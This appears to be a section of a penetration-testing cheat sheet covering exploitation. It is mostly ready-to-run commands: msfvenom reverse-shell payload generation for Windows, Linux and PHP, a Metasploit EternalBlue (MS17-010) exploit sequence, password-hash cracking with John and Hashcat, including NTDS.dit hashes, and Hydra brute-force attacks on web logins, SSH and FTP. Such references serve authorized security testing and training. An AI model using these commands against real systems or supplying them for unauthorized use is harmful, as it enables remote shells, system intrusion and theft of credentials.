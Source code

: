 ## <a name="exploitation"></a>Exploitation & Post-Exploitation

### Metasploit Framework

**Start MSF Console**
```bash
msfconsole
msfconsole -r exploit.rc
```
Launch Metasploit exploitation framework.

**Payload Generation**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o shell.elf
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o shell.php
```
Generate encoded payloads.

**Exploit Usage**
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```
Execute exploits.

### Hash Cracking

**John the Ripper**
```bash
john hashes.txt
john --wordlist=rockyou.txt hashes.txt
john --rules hashes.txt
john --format=NT hashes.txt
```
CPU-based password hash cracking.

**Hashcat**
```bash
hashcat -m 1000 -a 0 hashes.txt rockyou.txt
hashcat -m 1800 -a 0 shadow.txt wordlist.txt
hashcat -m 5500 -a 0 ntds.dit wordlist.txt
```
GPU-accelerated hash cracking.

### Brute Force Attacks

**Hydra Brute Force**
```bash
hydra -l admin -P rockyou.txt -f 192.168.1.100 http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"
hydra -L users.txt -P passes.txt 192.168.1.100 ssh
hydra -l root -P wordlist.txt 192.168.1.100 ftp
```
Parallel password brute force tool.
